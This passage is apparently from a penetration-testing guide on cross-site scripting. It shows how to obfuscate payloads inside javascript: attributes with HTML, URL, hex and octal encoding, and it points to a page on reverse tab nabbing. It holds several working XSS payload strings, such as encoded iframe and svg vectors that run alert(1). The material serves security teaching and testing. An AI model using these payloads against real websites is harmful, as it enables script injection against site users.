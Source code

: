 ```markup
```

**Other obfuscation tricks**

_**In this case the HTML encoding and the Unicode encoding trick from the previous section is also valid as you are inside an attribute.**_

```javascript
<a href="javascript:var a='&apos;-alert(1)-&apos;'">
```

Moreover, there is another **nice trick** for these cases: **Even if your input inside `javascript:...` is being URL encoded, it will be URL decoded before it's executed.** So, if you need to **escape** from the **string** using a **single quote** and you see that **it's being URL encoded**, remember that **it doesn't matter,** it will be **interpreted** as a **single quote** during the **execution** time.

```javascript
&apos;-alert(1)-&apos;
%27-alert(1)-%27
<iframe src=javascript:%61%6c%65%72%74%28%31%29></iframe>
```

Note that if you try to **use both** `URLencode + HTMLencode` in any order to encode the **payload** it **won't** **work**, but you can **mix them inside the payload**.

**Using Hex and Octal encode with `javascript:`**

You can use **Hex** and **Octal encode** inside the `src` attribute of `iframe` (at least) to declare **HTML tags to execute JS**:

```javascript
//Encoded: <svg onload=alert(1)>
// This WORKS
<iframe src=javascript:'\x3c\x73\x76\x67\x20\x6f\x6e\x6c\x6f\x61\x64\x3d\x61\x6c\x65\x72\x74\x28\x31\x29\x3e' />
<iframe src=javascript:'\74\163\166\147\40\157\156\154\157\141\144\75\141\154\145\162\164\50\61\51\76' />

//Encoded: alert(1)
// This doesn't work
<svg onload=javascript:'\x61\x6c\x65\x72\x74\x28\x31\x29' />
<svg onload=javascript:'\141\154\145\162\164\50\61\51' />
```

### Reverse tab nabbing

```javascript
<a target="_blank" rel="opener"
```

If you can inject any URL in an arbitrary **`<a href=`** tag that contains the **`target="_blank" and rel="opener"`** attributes, check the **following page to exploit this behavior**:

{% content-ref url="../reverse-tab-nabbing.md" %}
[reverse-tab-nabbing.md](../reverse-tab-nabbing.md)
{% endcontent-ref %}
